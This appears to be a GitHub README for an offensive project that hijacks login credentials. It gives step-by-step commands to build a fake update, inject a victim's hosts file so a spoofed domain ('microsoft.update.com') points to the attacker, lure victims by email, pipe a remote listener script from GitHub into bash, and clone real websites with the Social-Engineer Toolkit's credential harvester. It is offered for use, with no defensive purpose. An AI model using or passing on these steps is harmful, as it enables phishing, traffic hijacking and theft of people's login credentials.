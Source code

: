 # WARNING: This is a development project and is not READY for USING ;)
- BR
------------------------------------------------------------------------------------------
# SSTC-HTTPS-hijack-login-credentials 
- by nu11secur1ty

![](https://github.com/nu11secur1ty/SSTC-HTTPS-hijack-login-credentials/blob/master/logo/hijacking.jpg)
=======================================================================================================


***Installing requirements and tools:***

-  [git](https://github.com/trustedsec/social-engineer-toolkit)

-  [curl](https://curl.haxx.se/)

-  [apache2](https://httpd.apache.org/docs/2.4/howto/public_html.html)

-  [SOCIAL-ENGINEER TOOLKIT (SET)](https://www.trustedsec.com/tools/the-social-engineer-toolkit-set/)

-  [Python](https://www.python.org/)

-  [Kali Linux](https://www.kali.org/)

<a href="http://example.com/" target="_blank">Hello, world!</a>

------------------------------------------------------------

# Exploit steps:
- PWN OS HTTPS hijacking

1. - Preparing a fake update for the victim:
```bash
git clone https://github.com/nu11secur1ty/SSTC-HTTPS-hijack-login-credentials.git
cd SSTC-HTTPS-hijack-login-credentials/Attacker/sh1mazu_https_fake
bash sh1m@zu.sh
[1]
     enter
```

2. - Preparing your hosts-file for exploiting of the victim:
     
     // fakesite.login.com

```bash
cd SSTC-HTTPS-hijack-login-credentials/Attacker/hosts_fake_inject

bash fakehost.sh
     
     # NOTE: You should set up your Network setup to STATIC!
     
     # For example:
     # with IP 10.10.10.100 or 192.168.1.100
     # Or it'd depend from the local network in leyar2
     # WARNING: The host_injector is working only with these IP's from A class of networks
     //10.10.10.100// and //192.168.1.100//
     
     type the attacker IP 10.10.10.100 # or 192.168.1.100
     
     type the fake domain microsoft.update.com
     
     enter
```
3. - Sending an email or an extra lure on your victim to injecting her `hosts` file.


- **conclusion** and ***NOTE:*** This is the DNS attack which using an injection method against the victim hosts file.
        In that way, the victim will never know what actually opening on the browser when clicking on your link. The idea is         when the victim clicks on your link and opens the browser is not to see your IP
        and to see what you want to do it. When the victim opens your `fake domain` no matter what protocol is using `HTTP`         or `HTTPS`. The victim will never understand what actually is hidden behind this domain. ;)
```
Тhat's the hardest part ;)
I will give you a decision soon, but until then you should create your own!
There is no easy things in this world. ;)
```
4. - Listening for victim visiting

```bash
     curl -s https://raw.githubusercontent.com/nu11secur1ty/SSTC-HTTPS-hijack-login-credentials/master/Attacker/Hijack-HTTPS-Listener/kazkuvgluvutu.sh | bash
```

5. - After exploiting the victim you should ***Stop Apache2***
```bash
systemct stop apache2.service
```
-------------------------------------------------------------

***SECOND PART***

1. - setoolkit cloning of real website
```bash
setoolkit
1) Social-Engineering Attacks
     set>1
     enter
2) Website Attack Vectors
     set>2
     enter
3) Credential Harvester Attack Method
     set:webattack>3
     enter
2) Site Cloner
     set:webattack>2
     enter
set:webattack> IP address for the POST back in Harvester/Tabnabbing [10.10.10.100]:_your_local_layer2_IP_
     enter
[-] Example: http://www.thisisafakesite.com
set:webattack> Enter the url to clone: _your_site_
     enter
     enter
```
2. - Sending a hijack email of the victim.
```bash

```

3. - Receiving the hits from browser of the victim





